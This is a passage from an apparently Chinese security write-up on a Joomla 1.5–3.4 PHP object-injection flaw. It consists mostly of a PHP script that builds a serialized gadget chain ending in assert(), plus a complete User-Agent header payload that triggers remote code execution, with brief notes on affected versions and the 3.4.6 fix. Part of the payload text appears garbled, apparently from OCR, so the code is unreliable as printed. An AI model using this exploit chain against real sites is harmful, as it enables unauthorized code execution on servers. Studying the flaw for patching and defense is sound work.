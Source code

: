     class JDatabaseDriverMysqli {
        protected $a;
        protected $disconnectHandlers;
        protected $connection;
        function __construct()
        {
            $this->a = new JSimplepieFactory();
            $x = new SimplePie();
            $this->connection = 1;
            $this->disconnectHandlers = [
                [$x, "init"],
            ];
        }
    }
    
    $a = new JDatabaseDriverMysqli();
    echo serialize($a);
    

![](http://static.wooyun.org//drops/20151215/2015121512205192407.jpg)

将这个代码生成的exp，以前面提到的注入`『|』`的变换方式，带入前面提到的user-agent中，即可触发代码执行。 其中，我们需要将`char(0)*char(0)`替换成`\0\0\0`，因为在序列化的时候，protected类型变量会被转换成`\0*\0name`的样式，这个替换在源代码中也可以看到：

    
    
    #!php
    $result = str_replace('\0\0\0', chr(0) . '*' . chr(0), $result);
    

构造的时候遇到一点小麻烦，那就是默认情况下SimplePie是没有定义的，这也是为什么我在调用SimplePie之前先new了一个JSimplepieFactory的原因，因为JSimplepieFactory对象在加载时会调用import函数将SimplePie导入到当前工作环境：

![](http://static.wooyun.org//drops/20151215/2015121512205361071.jpg)

而JSimplepieFactory有autoload，所以不再需要其他include来对其进行加载。给出我最终构造的POC（既是上诉php代码生成的POC）：

    
    
    #!php
    User-Agent: 123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"ρhιτhσπpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}ð
    

给一张代码成功执行的POC：

![](http://static.wooyun.org//drops/20151215/201512151250568219614501837463659.jpg)

# 0x03 影响版本 & 修复方案

1.5 to 3.4全版本

更新到3.4.6版本

